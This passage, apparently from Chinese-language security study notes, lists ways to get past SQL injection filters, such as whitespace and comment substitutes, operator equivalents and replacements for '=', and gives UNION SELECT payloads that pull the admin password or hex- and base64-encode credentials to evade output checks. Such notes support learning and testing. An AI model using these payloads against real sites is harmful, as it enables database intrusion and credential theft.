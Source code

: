     - 过滤`空格`

      ```
      /**/
      ()
      反引号``
      %0d(回车)
      %09(tab水平制表符)
      %0a(换行)
      %0c(换页)
      %0b(垂直制表符)
      %a0
      ```

    - 过滤`注释符`

      ```
      可用注释符：
      --+
      --%0c-
      以上实际都是-- (空格)，只是%0c和+都被url解释为空格
      %23(#)
      ```

    - 过滤`逻辑符`

      ```
      and = &&
      or = ||
      xor = | # 异或
      not = !
      ```

    - 其他过滤

      - 过滤`=`
        - 不加通配符`%`的`like`和`relike`![](https://i.loli.net/2021/09/28/q4kovDAprYgEf3G.png)
        - `!<>`
          （`<>`相当于`!=`，所以`!<>`就相当于`=`）
        - 利用关键字regexp进行正则表达匹配
        - 利用比较函数strcmp(str1,str2)
      - 过滤逗号，引号等等![](https://i.loli.net/2021/09/28/OarVTJnZNqCEK2y.png)

      

  - 过滤`返回值`，要求返回值不得存在如username=admin
    bypass：

    - 只输出admin的password

      ```sql
      ' union select 1,password from user where username='admin'--+
      ```

    - 用`hex()`、`to_base64()`这样的函数将字段内容加密再输出

      ```sql
      ' union select id,to_base64(username),hex(password) from user--+
      ```
